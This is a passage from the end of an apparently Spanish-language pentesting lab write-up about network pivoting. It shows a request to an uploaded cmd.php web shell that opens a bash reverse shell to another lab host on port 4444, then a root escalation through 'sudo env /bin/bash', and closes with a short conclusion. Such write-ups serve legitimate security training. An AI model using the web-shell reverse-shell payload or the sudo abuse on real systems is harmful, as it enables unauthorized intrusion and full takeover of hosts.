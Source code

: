    ```text
   http://30.30.30.3/uploads/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/30.30.30.2/4444%200%3E%261%22
   ```
   <sub>[Captura de la reverse shell]</sub>

---

## Fase 9: Escalada de privilegios en 30.30.30.3

Revisamos permisos `sudo`:
```bash
sudo -l
```
<sub>[Captura]</sub>

Podemos ejecutar `/usr/bin/env` como root, así que usamos el comando en GTFOBins:

```bash
sudo env /bin/bash
```
<sub>[Captura como root]</sub>

---

## Conclusión

En este writeup, exploramos técnicas avanzadas de pentesting y pivoting utilizando herramientas como **chisel** y **socat**. Hemos cubierto la importancia de configurar correctamente **proxychains** para hacer saltos entre redes y aplicar estrategias de escalada de privilegios al final del proceso.

